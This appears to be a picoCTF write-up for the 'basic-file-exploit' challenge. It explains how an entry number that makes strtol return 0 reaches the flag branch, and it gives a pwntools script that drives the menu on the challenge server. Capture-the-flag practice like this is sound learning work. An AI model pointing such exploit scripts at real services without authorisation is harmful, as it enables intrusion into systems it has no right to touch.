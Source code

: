 # basic-file-exploit

We want to satisfy `strtol(entry, NULL, 10)) == 0`, which means that `strtol(entry, NULL, 10)` is 0 or it fails since the input entry is not valid integer. 

```python
from pwn import *
import binascii
# r = remote("pwnable.kr",  9004)

context.log_level = 'error'

# r = process("./a.out")
r = remote("saturn.picoctf.net", 51109)

print(r.recvuntil(b"to exit the program"))
r.sendline(b"1")
print(r.recvuntil(b"Please enter your data:"))
r.sendline(b"1")
print(r.recvuntil(b"Please enter the length of your data:"))
r.sendline(b"1")
print(r.recvuntil(b"Write successful, would you like to do anything else?"))
r.sendline(b"2")
print(r.recvuntil(b"Please enter the entry number of your data:"))
r.sendline(b"0") # r.sendline(b"a") also works. (any kind of non-numeric characters)
print(r.recvline())
print(r.recvline())
print(r.recvline())
```